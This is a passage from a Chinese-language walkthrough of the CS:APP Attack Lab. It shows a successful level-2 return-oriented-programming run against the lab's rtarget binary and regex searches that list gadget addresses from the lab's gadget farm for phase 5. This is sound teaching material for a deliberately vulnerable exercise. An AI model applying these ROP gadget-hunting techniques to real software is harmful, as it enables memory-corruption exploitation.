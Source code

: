 ```bash
$./hex2raw < rtarget.4.txt | ./rtarget -q
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
```

phase 5
-------

由于使用了栈随机化，*phase 5* 的关键是凑出输入字符串的地址（一个和 *%rsp* 有关的值），将其传送进 *%rdi*

让我们先看看能使用的 *gadget* 有哪些（不熟悉正则表达式的小伙伴可能要先去预习下 :-)
```bash
$egrep -a1 "5[89abcdef] (90|c3|   |(20|08|38|04) (c0|c9|d2|db))" farm_machine_code.txt
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
--
00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:       c3                      retq

$egrep -a1 "48 89 [cdef][0-9a-f] (90|c3|   |(20|08|38|84) (c0|c9|d2|db))" farm_machine_code.txt
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
--
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
--
0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq
--
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq

$egrep -a1 "([^8]|[^4]8) 89 [cdef][0-9a-f] (90|c3|  |(20|08|38|84) (c0|c9|d2|db))" farm_machine_code.txt
00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:       c3                      retq
--
0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq
--
0000000000401a25 <addval_187>:
  401a25:       8d 87 89 ce 38 c0       lea    -0x3fc73177(%rdi),%eax
  401a2b:       c3                      retq
--
0000000000401a33 <getval_159>:
  401a33:       b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:       c3                      retq
--
0000000000401a39 <addval_110>:
  401a39:       8d 87 c8 89 e0 c3       lea    -0x3c1f7638(%rdi),%eax
  401a3f:       c3                      retq
--
0000000000401a40 <addval_487>:
  401a40:       8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:       c3                      retq
--
```